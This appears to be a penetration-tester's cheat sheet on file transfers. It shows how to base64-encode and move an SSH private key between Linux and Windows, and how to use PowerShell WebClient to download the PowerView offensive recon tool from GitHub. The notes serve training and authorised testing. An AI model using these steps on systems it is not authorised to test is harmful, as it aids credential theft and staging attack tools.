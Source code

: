 ```yaml
---
# File Transfers
---
```

## Windows File Transfers

### PowerShell Base64 Encode & Decode
1. **Check SSH Key MD5 Hash**
```bash
md5sum id_rsa
```
2. **Encode SSH Key to Base64**
```bash
cat id_rsa | base64 -w 0;echo

justimaginethisissomerandomhashbecauseyoudontcareandidontcare=
```
3. **Decoding SSH Key on Windows machine**
```powershell
PS C:\carnifex17> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("justimaginethisissomerandomhashbecauseyoudontcareandidontcare="))
```
4. **Confirming the MD5 Hashes Match**
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```
- **Note**: It's not always possible to use this method because cmd.exe has a maximum string length of 8191 characters. And also web shell may error because of this large strings. 
#### Opposite Operation
I explained above how to do encoding in **Linux** and decoding in **Powershell**, now I'll explain opposite: Encode in **Powershell** and decode in **Linux**
1. **Encode File Using Powershell**
```powershell
PS C:\carnifex17> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte)) # Encode
PS C:\carnifex17> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash # Get hash
```
2. **Decode Base64 String in Linux**
```bash
echo justimaginethisissomerandomhashbecauseyoudontcareandidontcare= | base64 -d > hosts
```
3. **Check Hash**
```bash
md5sum hosts
```

### Powershell Web Downloads
 In any version of **PowerShell**, the **System.Net.WebClient** class can be used to download a file over `HTTP, HTTPS or FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource.
 1. **File Download**
```powershell
#Syntax: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\carnifex17> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

#Syntax: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\carnifex17> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```